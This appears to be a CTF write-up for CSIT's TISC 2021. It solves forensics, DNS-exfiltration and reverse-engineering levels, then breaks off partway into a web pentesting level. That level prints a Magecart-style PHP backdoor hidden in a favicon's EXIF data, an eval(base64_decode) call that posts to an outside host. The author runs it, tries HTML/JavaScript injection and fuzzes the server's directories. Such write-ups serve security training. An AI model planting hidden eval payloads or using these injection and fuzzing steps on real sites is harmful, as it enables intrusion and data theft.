


# CSIT TISC CTF Challenge 2021

## Level 1

```
Scratching the Surface - Challenge 1
DESCRIPTION
Domains: Forensics

We've sent the following secret message on a secret channel.

Submit your flag in this format: TISC{decoded message in lower case}

ATTACHED FILES
file1.wav
```

Using Audacity, we can split the stereo track and notice that there is a morse code in the second channel.


Translating the morse code, we obtained the flag.


```
Flag: TISC{csitislocatedinsciencepark}
```
&nbsp;

```
Scratching the Surface - Challenge 2
DESCRIPTION
Domains: Forensics

This is a generic picture. What is the modify time of this photograph?

Submit your flag in the following format: TISC{YYYY:MM:DD HH:MM:SS}

ATTACHED FILES
file2.jpg
```

Running `exiftool` on file2.jpg, we know that the datetime for the file is 2003:08:25 14:55:27.

```sh
>> exif file2.jpg

EXIF tags in 'file2.jpg' ('Intel' byte order):
--------------------+----------------------------------------------------------
Tag                 |Value
--------------------+----------------------------------------------------------
Image Description   |          
Manufacturer        |NIKON
Model               |E885
Orientation         |Top-left
X-Resolution        |300
Y-Resolution        |300
Resolution Unit     |Inch
Software            |E885v1.1
Date and Time       |2003:08:25 14:55:27
YCbCr Positioning   |Co-sited
Compression         |JPEG compression
X-Resolution        |300
Y-Resolution        |300
Resolution Unit     |Inch
Exposure Time       |1/234 sec.
F-Number            |f/3.1
Exposure Program    |Normal program
ISO Speed Ratings   |100
Exif Version        |Exif Version 2.1
Date and Time (Origi|2003:08:25 14:55:27
Date and Time (Digit|2003:08:25 14:55:27
Components Configura|Y Cb Cr -
Compressed Bits per | 4
Exposure Bias       |0.00 EV
Maximum Aperture Val|0.00 EV (f/1.0)
Metering Mode       |Pattern
Light Source        |Unknown
Flash               |Flash did not fire
Focal Length        |10.1 mm
Maker Note          |954 bytes undefined data
User Comment        |                                                          
FlashPixVersion     |FlashPix Version 1.0
Color Space         |sRGB
Pixel X Dimension   |1024
Pixel Y Dimension   |768
File Source         |DSC
Scene Type          |Directly photographed
Interoperability Ind|R98
Interoperability Ver|0100
--------------------+----------------------------------------------------------
EXIF data contains a thumbnail (9329 bytes).
```

```
Flag: TISC{2003:08:25 14:55:27}
```

&nbsp;

```
Scratching the Surface - Challenge 3
DESCRIPTION
Domains: Forensics, Cryptography

Nothing unusual about the Singapore logo right?

Submit your flag in the following format: TISC{ANSWER}

ATTACHED FILES
file3.jpg
```

We use `file` to check the file type. It's a JPEG file.

```sh
>> file file3.jpg

file3.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 360x360, components 3
```

Run `binwalk` to see if there are hidden files within it. There seems to be another image, picture_with_text.jpg in it. We add the `-e` option to extract the files.

```sh
>> binwalk -e file3.jpg 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, JFIF standard 1.01
7184          0x1C10          Zip archive data, at least v2.0 to extract, compressed size: 6348, uncompressed size: 7232, name: picture_with_text.jpg
13686         0x3576          End of Zip archive, footer length: 22
```

We run the `file` command to check this suspicious jpg. Indeed it is not an actual jpg file.

```sh
>> file picture_with_text.jpg 

picture_with_text.jpg: data
```

We use `hexedit` to view the binary data. There is some weird data before the JFIF header.

```sh
>> hexedit picture_with_text.jpg

00000000   4E 41 46 4A  52 45 20 47  42 20 47 55  NAFJRE GB GU
0000000C   56 46 20 50  55 4E 59 59  52 41 54 52  VF PUNYYRATR
00000018   20 56 46 20  55 52 45 52  20 4E 43 43   VF URER NCC
00000024   59 52 50 4E  45 45 42 47  43 52 4E 45  YRPNEEBGCRNE
00000030   FF D8 FF E0  00 10 4A 46  49 46 00 01  ......JFIF..

```

Using `dd`, I removed the 48 bytes of weird data to obtain the clean JFIF image.

```sh
>> dd if=picture_with_text.jpg of=picture_with_text_clean.jpg bs=1 skip=48 

7185+0 records in
7185+0 records out
7185 bytes (7.2 kB, 7.0 KiB) copied, 0.0229537 s, 313 kB/s

>> file picture_with_text_clean.jpg

picture_with_text_clean.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, progressive, precision 8, 360x360, components 3
```
Nothing special with the cleaned image.


However, the 48 bytes data are all ASCII, and it reminds me of ROT13 cipher.

```sh
>> echo "NAFJRE GB GUVF PUNYYRATR VF URER NCCYRPNEEBGCRNE" | tr '[a-z][A-Z]' '[n-za-m][N-ZA-M]'

ANSWER TO THIS CHALLENGE IS HERE APPLECARROTPEAR
```

```
Flag: TISC{APPLECARROTPEAR}
```

&nbsp;

```
Scratching the Surface - Challenge 4
DESCRIPTION
Domains: Forensics

What is the name of the user?

Submit your flag in the format: TISC{name}.
```
Navigating to the Users directory, we get the user's name.


```
Flag: TISC{adam}
```

&nbsp;

```
Scratching the Surface - Challenge 5
DESCRIPTION
Domains: Forensics

Which time was the user's most recent logon? Convert it UTC before submitting.

Submit your flag in the UTC format: TISC{DD/MM/YYYY HH:MM:SS}.
```

Open up the Event Viewer and create a custom view.


We filter by the event logs to Security and event ID 4624, which represents "An account was successfully logged on".


We locate the most recent event with Account Name adam and we have the flag.


Important things to take note is to convert the timezone to UTC, else you will input the wrong flag.

```
Flag: TISC{17/06/2021 02:41:37}
```

&nbsp;

```
Scratching the Surface - Challenge 6
DESCRIPTION
Domains: Forensics

A 7z archive was deleted, what is the value of the file CRC32 hash that is inside the 7z archive?

Submit your flag in this format: TISC{CRC32 hash in upper case}.
```

We locate a `sentosa-sea-aquarium.7z` file in the Recycle Bin. Extracting it gives us an image file. Running the `crc32` command on the image file gives us the flag.

```sh
>> crc32 sentosa-sea-aquarium.jpg

040e23da
```

```
Flag: TISC{040E23DA}
```

&nbsp;

```
Scratching the Surface - Challenge 7
DESCRIPTION
Domains: Forensics

Question1: How many users have an RID of 1000 or above on the machine?

Question2: What is the account name for RID of 501?

Question3: What is the account name for RID of 503?

Submit your flag in this format: TISC{Answer1-Answer2-Answer3}. Use the same case for the Answers as you found them.
```
Going to cmd, we run the following command to view the user accounts.

```console
>> wmic useraccount get name,sid,domain,localaccount

Domain           LocalAccount  Name                SID
DESKTOP-8U7F1GR  TRUE          adam                S-1-5-21-271853984-2378250948-965456637-1002
DESKTOP-8U7F1GR  TRUE          Administrator       S-1-5-21-271853984-2378250948-965456637-500
DESKTOP-8U7F1GR  TRUE          DefaultAccount      S-1-5-21-271853984-2378250948-965456637-503
DESKTOP-8U7F1GR  TRUE          Guest               S-1-5-21-271853984-2378250948-965456637-501
DESKTOP-8U7F1GR  TRUE          WDAGUtilityAccount  S-1-5-21-271853984-2378250948-965456637-504
```
The RID is the last value of the SID. From the above information, we can form our flag.

```
TISC{1-Guest-DefaultAccount}
```

&nbsp;

```
Scratching the Surface - Challenge 8
DESCRIPTION
Domains: Forensics

Question1: How many times did the user visit https://www.csit.gov.sg/about-csit/who-we-are ?

Question2: How many times did the user visit https://www.facebook.com ?

Question3: How many times did the user visit https://www.live.com ?

Submit your flag in this format: TISC{ANSWER1-ANSWER2-ANSWER3}.
```

Research tell us that website visits in edge is stored in the 'urls' table.


We locate the History file in `C:\Users\adam\AppData\Local\Microsoft\Edge\User Data\Default`.


Running `file` command tells us that it is a `sqlite` database file.

```sh
file History

History: SQLite 3.x database, last written using SQLite version 3034000
```
We use `sqlite` to open the file.

```sh
>> sqlite3

SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.

sqlite> .open History

sqlite> .tables
downloads                meta                     urls                   
downloads_slices         segment_usage            visit_source           
downloads_url_chains     segments                 visits                 
keyword_search_terms     typed_url_sync_metadata

sqlite> .headers on

sqlite> select * from urls;

id|url|title|visit_count|typed_count|last_visit_time|hidden
1|https://www.bing.com/search?q=chrome&cvid=d191036a87194165bed6f8067cc904fc&aqs=edge.0.0l7.850j0j1&FORM=ANSPA1&PC=U531|chrome - Bing|1|0|13268369482254794|0
2|http://csit.gov.sg/|CSIT | Home|1|0|13268369496451627|0
3|https://csit.gov.sg/|CSIT | Home|2|2|13268369531009234|0
4|https://www.csit.gov.sg/|CSIT | Home|2|0|13268369531009234|0
5|https://www.csit.gov.sg/about-csit/core-values|CSIT | Core Values|2|0|13268369520536836|0
6|https://www.csit.gov.sg/our-technology-programmes/cyber-technology|CSIT | Cybersecurity|1|0|13268369514266031|0
7|https://www.csit.gov.sg/about-csit/who-we-are|CSIT | Who We Are|2|0|13268369533523742|0
8|https://www.csit.gov.sg/our-technology-programmes/software-engineering-and-analytics|CSIT | Software Engineering|1|0|13268369535766788|0
9|https://www.csit.gov.sg/join-us/job-opportunities|CSIT | Job Opportunities|1|0|13268369538552455|0
```
We can see that only https://www.csit.gov.sg/about-csit/who-we-are is visited twice.

```
flag: TISC{2-0-0}
```

&nbsp;

```
Scratching the Surface - Challenge 9
DESCRIPTION
Domains: Forensics

A device with the drive letter “Z” was connected as a shared folder in VirtualBox. What was the label of the volume? Perhaps the registry can tell us the "connected" drive?

Submit your flag in this format: TISC{label of volume}.
```

We accessed the registry and locate MountPoints2 in the following directory.
```
Computer\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\MountPoints2\
```


We can see that the volume label is 'vm-shared'.

```
Flag: TISC{vm-shared}
```

```
Scratching the Surface - Challenge 10
DESCRIPTION
Domains: Forensics

A file with SHA1 0D97DBDBA2D35C37F434538E4DFAA06FCCC18A13 is in the VM… somewhere. What is the name of the file that is of interest?

Submit your flag in this format: TISC{name of file, include file extension}.
```

We write a powershell one-liner script to locate the file in the VM.

```console
>> $ErrorActionPreference = 'SilentlyContinue'; Get-Childitem -Path C:\Users\adam\ -Recurse -force | Get-FileHash -Algorithm SHA1 | Where-Object hash -eq '0D97DBDBA2D35C37F434538E4DFAA06FCCC18A13' | Select path

Path
----
C:\Users\adam\AppData\Roaming\Microsoft\Windows\Recent\otter-singapore.lnk
```

However, this is not the correct flag yet. `.lnk` is a shortcut, hence we need to click on it to see the actual file extension.


```
Flag: TISC{otter-singapore.jpg}
```

&nbsp;

## Level 2

```
Dee Na Saw as a need - Part 1
DESCRIPTION
Domain: Network Forensics

We have detected and captured a stream of anomalous DNS network traffic sent out from one of the PALINDROME compromised servers. None of the domain names found are active. Either PALINDROME had shut them down or there's more to it than it seems.

This level contains 2 flags and both flags can be found independently from the same pcap file as attached here.

Flag 1 will be in this format, TISC{16 characters}.

ATTACHED FILES
traffic.pcap
```
On opening the pcap file, we notice that the pcap file contains DNS request packets.


The domain name under the DNS Query Name looks very suspicious.


There seems to be a pattern in the domain name for the packets, and Base32 encoding comes to our mind. According to RFC4648, Base32 only contains `A-Z2-7=`. However, the domain name consist of 0,1,8 and 9 as well. Upon closer inspection, only the first two characters after `d33d` contains non Base32 characters. As such, we can deduce that the domain name can be split into 3 parts.

```
d33d (Fixed value)
21 (Number)
NRXXEZL (Base32 Encoded)
```

I checked the Number section and realised that it ranges from 01-64. Which makes me come to a conclusion that each number maps to a Base64 character. According to RFC4648, for Base64 mapping, 0 - A, 1 - B .. 62 - +, 63 - /. As such, we need to alter the mapping such that 1- A, 2 - B .. 63 - +, 64 - /. 

I first extract out all the domain names from the pcap file with `tshark`.

```sh
>> tshark -r traffic.pcap -T fields -e dns.qry.name -Y "dns.flags.response" > names.txt 
```

After which, i wrote a script to map the numbers to the Base64 characters and concatenate the characters together.

```python
import re

letter_map = {"01":"A",
            "02":"B",
            "03":"C",
            "04":"D",
            "05":"E",
            "06":"F",
            "07":"G",
            "08":"H",
            "09":"I",
            "10":"J",
            "11":"K",
            "12":"L",
            "13":"M",
            "14":"N",
            "15":"O",
            "16":"P",
            "17":"Q",
            "18":"R",
            "19":"S",
            "20":"T",
            "21":"U",
            "22":"V",
            "23":"W",
            "24":"X",
            "25":"Y",
            "26":"Z",
            "27":"a",
            "28":"b",
            "29":"c",
            "30":"d",
            "31":"e",
            "32":"f",
            "33":"g",
            "34":"h",
            "35":"i",
            "36":"j",
            "37":"k",
            "38":"l",
            "39":"m",
            "40":"n",
            "41":"o",
            "42":"p",
            "43":"q",
            "44":"r",
            "45":"s",
            "46":"t",
            "47":"u",
            "48":"v",
            "49":"w",
            "50":"x",
            "51":"y",
            "52":"z",
            "53":"0",
            "54":"1",
            "55":"2",
            "56":"3",
            "57":"4",
            "58":"5",
            "59":"6",
            "60":"7",
            "61":"8",
            "62":"9",
            "63":"+",
            "64":"/",
}

encoded_string = ""
f = open("names.txt","r")
lines = f.readlines()

for line in lines:
    number = re.search(r'd33d([0-9][0-9])(.*?).tentopspot.net', line).group(1)
    encoded_string+= letter_map[number]

print(encoded_string + "=",end="")
```

Indeed it looks like Base64 string.

```sh
>> python3 extract_num.py

UEsDBBQAAAAIAAAAIQDTPgWDcQEAAKgGAAATABwAW0NvbnRlbnRfVHlwZXNdLnhtbFVUCQADiDzOEog8zhJ1eAsAAQT1AQAABBQAAAC1lctqwzAQRfeF/oPRNthKuiilxMmij2UbaPoBqjSORWVJSJPX33ccO6GUNC5NvDHYM/feIw2Mx9NNZZIVhKidzdkoG7IErHRK20XO3ufP6R1LIgqrhHEWcraFyKaT66vxfOshJqS2MWclor/nPMoSKhEz58FSpXChEkivYcG9kJ9iAfxmOLzl0lkEiynWHmwyfoRCLA0mTxv63JAEMJElD01jnZUz4b3RUiDV+cqqHylpm5CRctcTS[redacted]
```

Then i ran a command to Base64 decode the output and saved it in a file.

```sh
>> python3 extract_num.py | base64 -d > number_file

>> file number_file 

number_file: Microsoft OOXML
```

We know that OOXML is basically a zip file. We can unzip it. After looking through the file, the flag is stored in `theme1.xml`.


```
Flag: TISC{1iv3_n0t_0n_3vi1}
```

&nbsp;

```
Dee Na Saw as a need - Part 2
DESCRIPTION
This level contains 2 flags and both flags can be found independently from the same pcap file in Part 1.

Flag 2 will be in this format, TISC{17 characters}.
```
We know that the last 7 characters in the domain name is in Base32 encoding. Using the previous `names.txt`, we extract the last 7 characters from the domain name in each packet and concatenate them.

```python
import re

encoded_string = ""
f = open("names.txt","r")
lines = f.readlines()

for line in lines:
    encoded_part = re.search(r'd33d[0-9][0-9](.*?).tentopspot.net', line).group(1)
    encoded_string+= encoded_part

print(encoded_string)
```
Converting the output to Base32, we can see the flag hidden within the text.

```sh
>> python3 extract_base32.py | base32 -d

lorem ipsum dolor sit amet, ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz+/ maecenas volutpat condimentum egestas. pellentesque vitae porttitor turpis, sed facilisis ipsum. duis vel interdum mi, at dapibus augue. morbi vulputate ultricies vulputate. etiam a quam eu nisi euismod faucibus ac a nunc. etiam sit amet ex eu ligula gravida pulvinar eget ac urna. lorem ipsum dolor sit amet, consectetur adipiscing elit. maecenas volutpat condimentum egestas. TISC{n3vEr_0dd_0r_Ev3n} etiam a quam eu nisi euismod faucibus ac a nunc. etiam a quam eu nisi euismod faucibus ac a nunc. etiam sit amet ex eu ligula gravida pulvinar eget ac urna. lorem ipsum dolor sit amet, consectetur adipiscing elit. maecenas volutpat condimentum egestas. etiam a quam eu nisi euismod faucibus ac a nunc. etiam sit amet ex eu ligula gravida pulvinar eget ac urna. lorem ipsum dolor sit amet, consectetur adipiscing elit. maecenas volutpat condimentum egestas. maecenas volutpat condimentum egestas. maecenas volutpat condimentum egestas.
```


```
Flag: TISC{n3vEr_0dd_0r_Ev3n}
```

&nbsp;

## Level 3

```
Needle in a Greystack
DESCRIPTION
Domains: Reverse Engineering

An attack was detected on an internal network that blocked off all types of executable files. How did this happen?

Upon further investigations, we recovered these 2 grey-scale images. What could they be?

ATTACHED FILES
1.bmp
2.bmp
```

We check the type of file these two images are. Both look like normal bmp.

```sh
>> file 1.bmp 2.bmp

1.bmp: PC bitmap, Windows 3.x format, 145 x 145 x 8, image size 21460, resolution 3780 x 3780 px/m, 256 important colors, cbSize 22538, bits offset 1078
2.bmp: PC bitmap, Windows 3.x format, 99 x 99 x 8, image size 9900, resolution 3780 x 3780 px/m, 256 important colors, cbSize 10978, bits offset 1078
```

Inspecting 1.bmp using `xxd`, we notice that the file contains the following text. This means that there is likely a Windows executable embedded in it. To confirm, we can check if a MZ header exist in the binary.

```sh
>> xxd 1.bmp 

...
000057c0: 014c cd21 5468 6973 2070 726f 6772 616d  .L.!This program
000057d0: 2063 616e 6e6f 7420 6265 2072 756e 2069   cannot be run i
000057e0: 6e20 444f 5320 6d6f 6465 2e0d 0d0a 2400  n DOS mode....$.

>> xxd 1.bmp | grep "4d 5a"

00004590: 85c0 7434 b94d 5a00 0066 3908 752a 8b48  ..t4.MZ..f9.u*.H
00005000: 81fa 0010 0000 0f82 0102 0000 b84d 5a00  .............MZ.


```
2.bmp contains a bunch of legible text.

```sh
>> xxd 2.bmp

...
00002a50: 7320 6570 6973 6369 6120 7072 6f64 7563  s episcia produc
00002a60: 6561 626c 656e 6573 7320 6269 6f70 6879  eableness biophy
00002a70: 7369 6f6c 6f67 6973 7420 6275 7200 6772  siologist bur.gr
00002a80: 6168 616d 6973 6d20 0000 6c65 6164 6162  ahamism ..leadab
00002a90: 6c65 2000 0000 616c 6c65 7267 6973 7420  le ...allergist 
00002aa0: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00002ab0: 0000 0000 0000 0000 0000 6d75 7368 6965  ..........mushie
00002ac0: 7220 006d 6574 6861 6372 796c 6174 6520  r .methacrylate 
00002ad0: 6163 7175 6169 6e74 616e 6365 7368 6970  acquaintanceship
```

Now we have to figure out how to extract the executable from 1.bmp. Running `binwalk` doesn't give us much, which means that extracting it is not so simple. We use `ImageMagick` to `identify` the content and we notice that there are weird RGB values in the image.

```sh
>> identify -verbose 1.bmp

Image:
  Filename: 1.bmp
  Format: BMP3 (Microsoft Windows bitmap image (V3))
  Class: PseudoClass
  ...
  Colors: 256
  Histogram:
    6803: (0,0,0) #000000 black
    146: (1,1,1) #010101 srgb(1,1,1)
    95: (2,2,2) #020202 srgb(2,2,2)
    86: (3,3,3) #030303 grey1
    136: (4,4,4) #040404 srgb(4,4,4)
    86: (5,5,5) #050505 grey2
    87: (6,6,6) #060606 srgb(6,6,6)
    74: (7,7,7) #070707 srgb(7,7,7)
    84: (8,8,8) #080808 grey3
    53: (9,9,9) #090909 srgb(9,9,9)
    64: (10,10,10) #0A0A0A grey4
    52: (11,11,11) #0B0B0B srgb(11,11,11)
    86: (12,12,12) #0C0C0C srgb(12,12,12)
    77: (13,13,13) #0D0D0D grey5
    44: (14,14,14) #0E0E0E srgb(14,14,14)
    88: (15,15,15) #0F0F0F grey6
    98: (16,16,16) #101010 srgb(16,16,16)
    59: (17,17,17) #111111 srgb(17,17,17)
    ...
  Colormap entries: 256
  Colormap:
    0: (0,0,0) #000000 black
    1: (1,1,1) #010101 srgb(1,1,1)
    2: (2,2,2) #020202 srgb(2,2,2)
    3: (3,3,3) #030303 grey1
    4: (4,4,4) #040404 srgb(4,4,4)
    5: (5,5,5) #050505 grey2
    6: (6,6,6) #060606 srgb(6,6,6)
    7: (7,7,7) #070707 srgb(7,7,7)
    8: (8,8,8) #080808 grey3
    9: (9,9,9) #090909 srgb(9,9,9)
    10: (10,10,10) #0A0A0A grey4
    11: (11,11,11) #0B0B0B srgb(11,11,11)
    12: (12,12,12) #0C0C0C srgb(12,12,12)
    13: (13,13,13) #0D0D0D grey5
    14: (14,14,14) #0E0E0E srgb(14,14,14)
    15: (15,15,15) #0F0F0F grey6
    16: (16,16,16) #101010 srgb(16,16,16)
    17: (17,17,17) #111111 srgb(17,17,17)
    18: (18,18,18) #121212 grey7
    19: (19,19,19) #131313 srgb(19,19,19)
    20: (20,20,20) #141414 grey8
    ...
```

Maybe the file is embedded in the RGB values. We can use `ImageMagick's` `convert` to extract a colour value. We extracted Red for this case.

```sh
>> convert 1.bmp R:out_1
```

Viewing in `xxd` we notice that the file header is now MZ, which is a Windows executable. The `file` command verifies it.

```sh
>> xxd out_1

00000000: 4d5a 9000 0300 0000 0400 0000 ffff 0000  MZ..............
00000010: b800 0000 0000 0000 4000 0000 0000 0000  ........@.......
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 f800 0000  ................
00000040: 0e1f ba0e 00b4 09cd 21b8 014c cd21 5468  ........!..L.!Th
00000050: 6973 2070 726f 6772 616d 2063 616e 6e6f  is program canno
00000060: 7420 6265 2072 756e 2069 6e20 444f 5320  t be run in DOS 
00000070: 6d6f 6465 2e0d 0d0a 2400 0000 0000 0000  mode....$.......
...
>> file out_1

out_1: PE32 executable (console) Intel 80386, for MS Windows
```

2.bmp have a similar structure, so we extract it using `convert` as well. We obtained a bunch of text instead.

```sh
>> convert 2.bmp R:out_2

>> xxd out_2

00000000: 6772 6168 616d 6973 6d20 0000 6c65 6164  grahamism ..lead
00000010: 6162 6c65 2000 0000 616c 6c65 7267 6973  able ...allergis
00000020: 7420 0000 0000 0000 0000 0000 0000 0000  t ..............
00000030: 0000 0000 0000 0000 0000 0000 6d75 7368  ............mush
00000040: 6965 7220 006d 6574 6861 6372 796c 6174  ier .methacrylat
00000050: 6520 6163 7175 6169 6e74 616e 6365 7368  e acquaintancesh
00000060: 6970 2073 696c 7665 7269 7a69 6e67 2066  ip silverizing f
00000070: 756e 6572 6561 6c6e 6573 7320 0000 0000  unerealness ....
00000080: 6170 6f69 6b69 6120 6472 6561 6d73 696e  apoikia dreamsin
00000090: 6573 7320 6861 696c 6573 2065 7069 7363  ess hailes episc
000000a0: 6961 2070 726f 6475 6365 6162 6c65 6e65  ia produceablene
000000b0: 7373 2062 696f 7068 7973 696f 6c6f 6769  ss biophysiologi
000000c0: 7374 2062 7572 6561 7563 7261 7465 7365  st bureaucratese
000000d0: 2065 6e64 6961 6465 6d20 7374 7275 6374   endiadem struct
000000e0: 7572 656c 7920 6661 7274 6865 7220 0000  urely farther ..
000000f0: 0000 0000 0000 0000 6469 6173 7465 6d61  ........diastema
00000100: 7469 6320 0000 0000 0000 0000 6269 6f63  tic ........bioc
...
```

When we try to execute the file. The below message is displayed.



We use `IDA` to reverse the executable. We figured that the executable requires a file input in the form for {filename}.txt and the content will be read.


We tried to create a test.txt file with random content and ran the executable. This time there is no fake flag, but no output at the same time.


Looking into `IDA`, we noticed a string that is also in the out_2.txt file. Maybe out_2.txt is the input text file for out_1.exe?


```sh
>> strings out_2

grahamism 
leadable 
allergist 
mushier 
methacrylate acquaintanceship silverizing funerealness
```

We try to parse it as an input and we got an additional message.


Let's use `x32dbg` to debug the executable. After loading it, we can rebase the address of `IDA` to correlate it to `x32dbg` easier. We right click -> Search For -> All Modules -> String References to look for "HELLO WORLD". We see the address 00F21020. Going to `IDA`, we go to Edit -> Segments -> Rebase Program to 0xF20000. Now both address matches.


Tracing the program leads us to function call `00F212E3 call sub_F21360`, which then calls `00F21551 call eax` after.


When the out_2.txt file is provided, `00F21551 call eax` will load a binary during runtime. We can set a break point before the call in `x32dbg` to obtain the runtime binary from EAX. The EAX address is 1000167B. We right click the address -> Follow in Memory Map. We dump address 10000000 to file and name it as out_3 to do static analysis.


Following the execution, fopen_s is called to read a key.txt file.


The content of key.txt is moved to EDX. We followed it in the dump and see that the there is a message in it.


Opening out_3 in `IDA`, we can see that there is a string comparison with the message after we have rebase the program and redefine the strings.


We create a key.txt with the following message and run the previous command. Note that the message must be terminated with a NULL byte (00). This time, we get the *Wink* message as well as a weird output string.


Line 60 onwards looks like a [RC4 decryption algorithm](https://www.programmerall.com/article/9239436200/). We can see the initialization and disruption of SBox using a key. Since the key is compared with the message, key.txt must contain a key to decrypt the encrypted message. On Line 67, mod 14 indicates that only the first 14 characters of the key is used, which means that the key is 14 characters.


I remember that we have a out_2.txt file which contain random strings. Maybe one of them is the key? We can use `sed` and `grep` commands to get strings with 14 characters from the file.

```sh
>> cat out_2 | sed 's/\x00/\x20/g' | sed 's/\x20/\x0a/g' | grep . | grep -E '^.{14}$'

philosophizers
obstructionist
trichodontidae
overanimatedly
interpellation
precandidature
pasteurisation
lymphosarcomas
ureteroenteric
discommendably
hyperanabolism
dextrogyratory
unhistorically
!t4ttaRRatt4t!
perissological
reputationless
noncongruously
metantimonious
torturableness
decorativeness
multicarinated
semiopalescent
unqualifyingly
```
`!t4ttaRRatt4t!` is a palindrome, which is the name of the attacker. Replacing it into the key.txt and running the executable, we obtained the decrypted text, which is the flag.


```
FLAG: TISC{21232f297a57a5a743894a0e4a801fc3}
```

&nbsp;

## Level 4

```
DESCRIPTION
Domains: Web Pentesting

One day, the admin of Apple Story Pte Ltd received an anonymous email.

===
Dear admins of Apple Story,
We are PALINDROME.
We have took control over your system and stolen your secret formula!
Do not fear for we are only after the money.
Pay us our demand and we will be gone.
For starters, we have denied all controls from you.
We demand a ransom of 1 BTC to be sent to 1BvBMSEYstWetqTFn5Au4m4GFg7xJaNVN2 by 31 dec 2021.
Do not contact the police or seek for help.
Failure to do so and the plant is gone.
We planted a monitoring kit so do not test us.
Remember 1 BTC by 31 dec 2021 and we will be gone.
Muahahahaha.

Regards,
PALINDROME
===

Management have just one instruction. Retrieve the encryption key before the deadline and solve this.

http://wp6p6avs8yncf6wuvdwnpq8lfdhyjjds.ctf.sg:14719

Note: Payloads uploaded will be deleted every 30 minutes.

AVAILABLE HINTS
*What are some iconic techniques that the actor PALINDROME mimicked Magecart to evade detection?*
```

According to [online resources](https://www.darkreading.com/attacks-breaches/magecart-how-its-attack-techniques-evolved), one of the techniques Magecart use is to insert malware by disguising PHP shell as a favicon. The code is usually hidden in the EXIF metadata. We check the network tab in our browser and we can see a favicon.ico being loaded.


We proceed to run the `exiftool` command on it and we discover a Base64 encoded text.

```sh
>> exiftool favicon.ico 
ExifTool Version Number         : 12.16
File Name                       : favicon.ico
Directory                       : .
File Size                       : 12 KiB
File Modification Date/Time     : 2021:11:07 22:41:37-05:00
File Access Date/Time           : 2021:11:07 22:42:41-05:00
File Inode Change Date/Time     : 2021:11:07 22:42:21-05:00
File Permissions                : rwxrw-rw-
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 72
Y Resolution                    : 72
Exif Byte Order                 : Big-endian (Motorola, MM)
Orientation                     : Horizontal (normal)
Copyright                       : eval(base64_decode('JGNoPWN1cmxfaW5pdCgpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1VSTCwiaHR0cDovL3MwcHE2c2xmYXVud2J0bXlzZzYyeXptb2RkYXc3cHBqLmN0Zi5zZzoxODkyNi94Y3Zsb3N4Z2J0ZmNvZm92eXdieGRhd3JlZ2pienF0YS5waHAiKTtjdXJsX3NldG9wdCgkY2gsQ1VSTE9QVF9QT1NULDEpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1BPU1RGSUVMRFMsIjE0YzRiMDZiODI0ZWM1OTMyMzkzNjI1MTdmNTM4YjI5PUhpJTIwZnJvbSUyMHNjYWRhIik7JHNlcnZlcl9vdXRwdXQ9Y3VybF9leGVjKCRjaCk7'));
Profile CMM Type                : 
Profile Version                 : 2.1.0
Profile Class                   : Display Device Profile
Color Space Data                : RGB
Profile Connection Space        : XYZ
```

We do a Base64 decode on it and realise that is making a POST request to another server. The post parameter is `username` in md5.

```sh
>> echo "JGNoPWN1cmxfaW5pdCgpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1VSTCwiaHR0cDovL3MwcHE2c2xmYXVud2J0bXlzZzYyeXptb2RkYXc3cHBqLmN0Zi5zZzoxODkyNi94Y3Zsb3N4Z2J0ZmNvZm92eXdieGRhd3JlZ2pienF0YS5waHAiKTtjdXJsX3NldG9wdCgkY2gsQ1VSTE9QVF9QT1NULDEpO2N1cmxfc2V0b3B0KCRjaCxDVVJMT1BUX1BPU1RGSUVMRFMsIjE0YzRiMDZiODI0ZWM1OTMyMzkzNjI1MTdmNTM4YjI5PUhpJTIwZnJvbSUyMHNjYWRhIik7JHNlcnZlcl9vdXRwdXQ9Y3VybF9leGVjKCRjaCk7" | base64 -d

$ch=curl_init();
curl_setopt($ch,CURLOPT_URL,"http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/xcvlosxgbtfcofovywbxdawregjbzqta.php");
curl_setopt($ch,CURLOPT_POST,1);
curl_setopt($ch,CURLOPT_POSTFIELDS,"14c4b06b824ec593239362517f538b29=Hi%20from%20scada");
$server_output=curl_exec($ch);  
```

Running the code generates a html page.

```sh
>> php curl_backdoor.php 
New record created successfully in data/767ac56c029aaa9d0301ccd732773dc5.html  
```

When we visited the website. We are greeted by the content of the POST FIELD.


It seems like we can manipulate the POST parameter to display whatever we want on the page. We try injecting php commands to execute shell command, however it was unsuccessful. It seems like we can only inject HTML or Javascript.

With not much information on what we can do, we can run `wfuzz` on the domain to see if there are any interesting directories.

```sh
>> wfuzz -u http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/FUZZ.php --hc 404 -w /usr/share/wfuzz/wordlist/general/common.txt

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://s0pq6slfaunwbtmysg62yzmoddaw7ppj.ctf.sg:18926/FUZZ.php
Total requests: 951

=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================

